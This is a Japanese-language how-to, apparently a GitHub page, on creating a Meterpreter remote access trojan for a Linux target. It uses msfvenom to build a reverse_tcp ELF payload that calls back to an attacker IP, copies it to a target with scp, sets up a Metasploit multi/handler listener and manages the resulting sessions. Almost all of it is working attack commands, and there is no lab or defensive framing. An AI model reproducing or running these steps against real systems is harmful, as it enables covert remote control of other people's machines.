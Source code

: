 ### メータープレタ― (Meterpreter) の RAT ファイル作成手順

以下は、Linuxターゲットに対する Meterpreter の RAT (Remote Access Trojan) ファイルの作成と使用の流れです。手順に従って実行することで、ターゲットシステムに対してリモートアクセスを確立することができます。

#### 1. RATファイルの作成
まず、`msfvenom` を使用して、ターゲットに適した Meterpreter のペイロードを含むRATファイルを作成します。この例ではLinuxターゲット用に `.elf` ファイルを作成していますが、ターゲットに応じてファイル名や拡張子を変更します。

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.99 -f elf -o meterpreter
```
- `LHOST` : 攻撃者側のIPアドレス（ここでは `10.0.0.99`）
- `-f elf` : 出力ファイル形式として ELF を指定
- `-o meterpreter` : 出力ファイル名を `meterpreter` に設定

#### 2. ファイルの権限変更
作成したRATファイルに実行権限を付与します。

```bash
chmod u+x meterpreter
```

#### 3. ファイルの転送
`scp` コマンドを使用して、作成したRATファイルをターゲットマシンに転送します。

```bash
scp meterpreter johndoe@192.168.1.3:/home/johndoe/meterpreter
```

#### 4. Metasploitの設定と起動
次に、`msfconsole` を起動して Metasploit フレームワークを設定します。

```bash
msfconsole
```

設定が完了したら、ペイロードとリスナーを設定します。

```bash
set LHOST 10.0.0.99
set payload linux/x86/meterpreter/reverse_tcp
```

続いて、`multi/handler` エクスプロイトを使用してリスナーを起動します。

```bash
use exploit/multi/handler
exploit
```

リスナーが起動すると、攻撃者のマシンで待機状態になります。

#### 5. ターゲットマシンでRATファイルを実行
ターゲットユーザーがRATファイルを実行すると、攻撃者側でセッションが開始され、Meterpreterのコンソールが表示されます。

```bash
./meterpreter
```

#### 6. Meterpreterセッションの管理
セッションをバックグラウンドで実行するには以下のコマンドを使用します。

```bash
meterpreter > background
```

現在アクティブなセッションを確認するには、次のコマンドを実行します。

```bash
sessions
```

特定のセッションに戻るには、セッションIDを指定して以下のコマンドを実行します。

```bash
sessions -i <ID>
```

これで、ターゲットシステムに対するリモート操作が可能になります。注意して操作を行ってください。
![image](https://github.com/user-attachments/assets/d29de349-fb6b-4b19-97b6-9a77b3e3f18f)
